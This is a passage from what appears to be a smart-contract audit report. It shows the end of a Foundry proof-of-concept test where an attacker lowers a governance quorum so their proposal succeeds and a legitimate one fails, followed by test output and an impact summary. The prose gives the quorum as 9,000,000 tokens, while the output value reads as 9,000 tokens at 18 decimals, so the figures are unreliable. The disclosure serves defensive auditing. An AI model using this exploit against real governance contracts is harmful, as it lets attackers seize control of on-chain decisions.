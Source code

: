 ```solidity 
        console.log("Manipulated Quorum:", manipulatedQuorum);
​
        // Move to end of voting period
        vm.warp(block.timestamp + governance.votingPeriod() - 365 days);
​
        // Check states
        IGovernance.ProposalState legitimateState = governance.state(legitimateProposal);
        IGovernance.ProposalState attackerState = governance.state(attackerProposal);
​
        console.log("\n=== Attack Results ===");
        console.log("Legitimate User's Proposal State:", uint(legitimateState));
        console.log("Attacker's Proposal State:", uint(attackerState));
        
        assertTrue(legitimateState == IGovernance.ProposalState.Defeated, 
            "Legitimate user's proposal should be defeated due to quorum manipulation");
        assertTrue(attackerState == IGovernance.ProposalState.Succeeded, 
            "Attacker's proposal should succeed");
​
        vm.stopPrank();
    }
​
}
```

Test Output:

Initial Quorum Required: 9000000000000000000000
Manipulated Quorum: 4000000000000000000000
​
=== Attack Results ===
Legitimate User's Proposal State: 3  // Defeated
Attacker's Proposal State: 4        // Succeeded
Attack Demonstration
The test successfully demonstrates a critical governance vulnerability where an attacker can manipulate quorum requirements:

Initial State:

Total quorum required: 9,000,000 tokens (4% of total voting power)

Shows healthy governance parameters

Post-Attack State:

Manipulated quorum: 4,000,000 tokens

Represents a 55.5% reduction in quorum requirements

Impact on Proposals:

Legitimate Proposal (State 3): Defeated

Attacker's Proposal (State 4): Succeeded

### Impact
Governance Manipulation: Attackers can force through their proposals making it succeed while blocking legitimate ones, making it fail.
